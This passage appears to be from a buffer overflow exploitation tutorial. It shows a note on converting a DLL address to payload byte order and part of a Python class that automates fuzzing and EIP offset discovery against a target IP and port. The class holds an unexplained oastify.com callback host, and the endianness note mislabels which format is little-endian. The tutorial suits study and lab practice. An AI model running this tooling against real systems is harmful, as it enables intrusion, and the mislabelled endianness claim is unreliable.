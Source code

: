 ### 🔄 Address Conversion
**Important**: x86 architecture uses little-endian format, so addresses must be converted:
- Original DLL Address: `68a98a7b` (Little Endian)
- Exploit Format: `\x7b\x8a\xa9\x68` (Big Endian for payload)

---

## Automation Scripts and Advanced Techniques

### 🤖 Automated Buffer Overflow Testing Script
```python
#!/usr/bin/env python3
import subprocess
import time
import requests

class BufferOverflowTester:
    def __init__(self, target_ip, target_port):
        self.target_ip = target_ip
        self.target_port = target_port
        self.test_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
        
    def run_fuzzing_test(self):
        """Run automated fuzzing test"""
        print("[+] Running fuzzing test...")
        try:
            result = subprocess.run([
                "python3", "fuzzing.py", 
                self.target_ip, str(self.target_port),
                "--max-size", "5000"
            ], capture_output=True, text=True, timeout=300)
            
            if "CRASH DETECTED" in result.stdout:
                print("[+] Crash detected during fuzzing")
                return True
            else:
                print("[-] No crash detected")
                return False
        except Exception as e:
            print(f"[-] Fuzzing test failed: {e}")
            return False
    
    def discover_offset(self, pattern_length=2000):
        """Discover EIP offset using cyclic pattern"""
        print(f"[+] Discovering offset with pattern length {pattern_length}")
        try:
            # Send pattern
            subprocess.run([
                "python3", "offset.py",
                self.target_ip, str(self.target_port),
                str(pattern_length)
            ], timeout=60)
            
            print("[*] Pattern sent. Check debugger for EIP value.")
            print("[*] Then run: python3 offset.py --find-offset <EIP_HEX>")
            return True
        except Exception as e:
            print(f"[-] Offset discovery failed: {e}")
            return False
    
    def test_bad_characters(self, offset):
        """Test for bad characters"""
```
